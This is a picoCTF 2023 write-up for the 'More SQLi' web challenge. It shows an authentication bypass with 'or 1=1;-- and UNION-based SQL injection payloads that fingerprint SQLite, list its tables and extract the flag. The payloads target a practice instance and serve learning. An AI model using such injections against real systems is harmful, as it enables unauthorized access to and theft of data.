

# More SQLi #
 
## Overview ##
 
200 points
 
Category: [Web Exploitation](../)
 
Tags : `#picoCTF 2023` `Web Exploitation` `sql`
 
## Description ##

Can you find the flag on this website.

Additional details will be available after launching your challenge instance.
 
## Solution ##

After start of the instance picoCTF will provide you a link to running instance.

Site has login screen:

If you type `user` username and `user` pass - you will get this message.

So now we see the query for login request - it is obviously a hint for us, because when we know the query - we can easily get in with
 
 `'or 1=1;--` in `pass` field:

Because the result query will be something like this:

 `SELECT id FROM users WHERE password = '' or 1=1;--' and username = '123'`

We can test some queries to find out, what DB is used, and with this query: 

`123' UNION SELECT 1, sqlite_version(), 3;--` 

we now know, that this site is using SQLite.

Now we can just list all tables with this query 

`123' UNION SELECT name, sql, null from sqlite_master;--`

Here is the flag - let's get it.

`123' UNION SELECT flag, null, null from more_table;--`

